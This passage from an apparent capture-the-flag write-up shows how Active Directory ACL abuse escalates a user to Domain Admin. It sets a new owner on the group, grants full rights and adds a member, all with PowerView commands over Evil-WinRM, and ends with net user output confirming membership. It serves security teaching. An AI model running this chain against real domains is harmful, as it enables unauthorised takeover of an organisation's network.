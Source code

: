 maria has `WriteOwner` on the Domain Admins group. From the help in
BloodHound, this means maria can change the owner of the group.

I’ll import `PowerView.ps` and then assign maria as the owner of the group:

    
    
    *Evil-WinRM* PS C:\programdata> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
    

I think there are some weird timing issues that can come up running this
command that causes the command to fail (likely some cleanup cron setting the
permissions back). Waiting a minute and running again worked.

As owner, maria can give maria full rights over the group:

    
    
    *Evil-WinRM* PS C:\programdata> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
    

Now maria can add themself to the group:

    
    
    *Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
    

It worked:

    
    
    *Evil-WinRM* PS C:\programdata> net user maria
    User name                    maria
    Full Name                    maria garcia
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            10/21/2021 8:16:32 PM
    Password expires             Never
    Password changeable          10/22/2021 8:16:32 PM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script                 C:\\programdata\\cmd.ps1
    User profile
    Home directory
    Last logon                   2/28/2022 3:51:46 AM
    
    Logon hours allowed          All
    
    Local Group Memberships      *Remote Management Use
    Global Group memberships     *Domain Admins        *Domain Users
    The command completed successfully.
    

### WinRM with Domain Admin
